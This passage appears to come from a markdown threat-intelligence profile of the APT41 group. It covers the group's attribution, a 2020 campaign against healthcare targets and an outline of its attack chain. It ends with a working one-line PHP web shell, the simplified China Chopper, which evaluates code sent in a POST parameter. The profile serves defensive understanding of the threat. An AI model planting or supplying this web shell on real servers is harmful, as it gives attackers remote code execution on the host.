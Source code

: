 ```csharp
    }
}
```

---

## 🇨🇳 APT41 (Double Dragon, Wicked Panda)

### Attribution
- **Sponsor**: China (Ministry of State Security)
- **Active Since**: 2012
- **Unique**: Dual mission (espionage + financial gain)
- **Confidence**: High

### Notable Operations

#### Healthcare Sector Targeting (2020)
**Target**: Global healthcare, pharmaceutical companies  
**Objective**: COVID-19 research theft

**Attack Chain**:
```
1. Initial Access
   - Exploit public-facing apps (Citrix, Cisco, Zoho)
   - Zero-day vulnerabilities
   
2. Persistence
   - Web shells (China Chopper)
   - Scheduled tasks
   - Service creation
   
3. Privilege Escalation
   - Kernel exploits
   - Token manipulation
   
4. Collection
   - Research data
   - Intellectual property
   - Patient records
   
5. Exfiltration
   - Compressed archives via HTTP/HTTPS
```

**Web Shell - China Chopper**:
```php
<?php
// China Chopper web shell (simplified)
// Actual version is even more minimal (70 bytes)
@eval($_POST['z']);
?>
```
